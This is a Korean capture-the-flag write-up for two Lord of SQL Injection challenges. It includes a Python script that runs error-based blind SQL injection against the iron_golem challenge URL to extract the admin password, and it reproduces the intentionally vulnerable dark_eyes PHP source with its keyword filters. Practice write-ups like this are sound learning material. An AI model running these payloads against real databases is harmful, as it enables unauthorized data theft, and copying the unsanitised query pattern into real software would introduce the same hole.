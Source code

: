 pw에 '를 입력했을 때 오류가 나는 것을 알 수 있고 이를 바탕으로 Error Based SQL-I를 시도해 볼 수 있다.

의도적으로 error를 발생시켜 쿼리가 참인지 알 수 있다.
mysql에서 단일 값을 반환해야하는데 두개의 행을 반환하면 오류가 날 수 있다는 것을 이용하여 python 코드를 작성했다.
```python
import requests
url = "https://los.rubiya.kr/chall/iron_golem_beb244fe41dd33998ef7bb4211c56c75.php"

cookie = {'PHPSESSID' : 'cookie 값'}

for len in range(100):
  print(len)
  param = {'pw': f"' or if(length(pw)={len},(select 1 union select 2), 0)#"}
  res = requests.get(url=url, params=param, cookies=cookie)
  if "Subquery" in res.text:
    print(len)
    break

length = 32
password = ""
for len in range(1, length+1):
  for pw in range(ord('0'), ord('z')):
    param = {'pw': f"' or if(ord(substr(pw,{str(len)},1))={str(pw)},(select 1 union select 2), 0)#"}
    res = requests.get(url=url,  params=param, cookies=cookie)
    if "Subquery" in res.text:
      password += chr(pw)
      print(password)
      break
        
print(password.lower())
```
<br>

## Dark_eyes
```php
<?php
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/col|if|case|when|sleep|benchmark/i', $_GET[pw])) exit("HeHe");
  $query = "select id from prob_dark_eyes where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(mysqli_error($db)) exit();
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  
  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_dark_eyes where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("dark_eyes");
  highlight_file(__FILE__);
?>
```
### exploit
Iron_golem 문제와 비슷하지만 필터링하는 것이 더 많다.<br>
Iron_golem문제처럼 '을 입력해봤지만 빈 화면이 출력되었다.<br>

